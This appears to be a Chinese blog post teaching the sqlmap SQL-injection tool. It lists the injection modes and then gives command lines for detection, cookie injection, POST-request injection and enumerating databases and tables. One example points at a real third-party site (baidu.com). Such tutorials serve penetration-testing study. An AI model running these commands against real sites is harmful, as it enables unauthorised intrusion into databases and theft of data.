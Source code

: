 ```yaml
---
layout: post
title: "sqlmap使用教程"
date: 2016-12-08 
---
```


#sqlmap使用教程#
##sqlmap简介

sqlmap支持五种不同的注入模式：

1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。

2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

4、联合查询注入，可以使用union的情况下的注入。

5、堆查询注入，可以同时执行多条语句的执行时的注入。
sqlmap支持的数据库有

`MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB`

检测注入

基本格式

`sqlmap -u "http://www.vuln.cn/post.php?id=1"`
默认使用level1检测全部数据库类型
`sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3`
指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

跟随302跳转

当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，
当注入错误的时候，先报错再跳转的时候，不需要跟随302。
目的就是：要追踪到错误信息。

cookie注入

当程序有防get注入的时候，可以使用cookie注入
`sqlmap -u "http://www.baidu.com/shownews.asp" --cookie "id=11" --level 2（只有level达到2才会检测cookie）`

从post数据包中注入

可以使用burpsuite或者temperdata等工具来抓取post包
`sqlmap -r "c:\tools\request.txt" -p "username" --dbms mysql`    指定username参数
注入成功后

获取数据库基本信息

`sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3 --dbs`

查询有哪些数据库

`sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3 -D test --tables`
